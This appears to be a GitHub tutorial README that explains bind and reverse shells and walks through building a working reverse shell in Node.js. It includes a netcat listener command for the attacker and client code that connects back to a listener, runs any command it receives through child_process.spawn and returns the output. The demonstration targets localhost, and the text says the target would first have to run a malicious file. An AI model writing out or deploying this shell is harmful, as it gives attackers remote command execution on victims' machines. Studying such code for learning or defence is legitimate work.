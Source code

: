 
# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :
_
"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not works. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)



# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 



First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "_Connected_" \n "_$>_" on my terminal, the ATTACKER terminal.


![](connected_reverse_shell.png)

### Ok good, we have a connection. Now what?
Now we implement the code that will make our TARGET do something when it receives the commands.

I used: `lient.on("data", FUNCTION )`

What this function does is specifying what the client will do when it will receive data. The passed data is defined as `"data"`and the `FUNCTION` is the action the TARGET will do.


```

client.on("data", (data)=>{  

  
    let cmd = (data.toString().trimEnd()); 

    let args = cmd .split(" "); 
    
    let exec = child_process.spawn(args[0],args.slice(1)); //args.slice(1) elimina il primo elemento del vettore

    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })


})
```

#### Let's break it down.

`let cmd = (data.toString().trimEnd()); `

Here i define `cmd` as the command that is passed. the method `toString()` is used to convert the bufferized hex that arrives into a string of character.

The method `trimEnd()` cuts the last character since it is a CR LF char and could mess up with the command we want to send.


`let args = cmd .split(" ");` here i define `args` as an array of all the commands + flags that are sent. The divisor is the space.

`let exec = child_process.spawn(args[0],args.slice(1));` This is the heart of our code. This method makes the command executable on the TARGET machine.


>child_process.spawn(command[, args][, options]).
As [**node.js** documentation states:](https://nodejs.org/api/child_process.html#child_processspawncommand-args-options) 
>The child_process.spawn() method spawns a new process using the given command, with command-line arguments in args. If omitted, args defaults to an empty array.

In our code, `args[0]` is the command we want to execute, from `args[1]` there are just flags. `args.slice[1]` takes the `args[]` vector from the 1st element, not the 0th.


To conclude, we make the client  output the result of our command. Alway using ".on"

```
    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })
    
````

## An example

![](command_execute-reverse_shell.png)











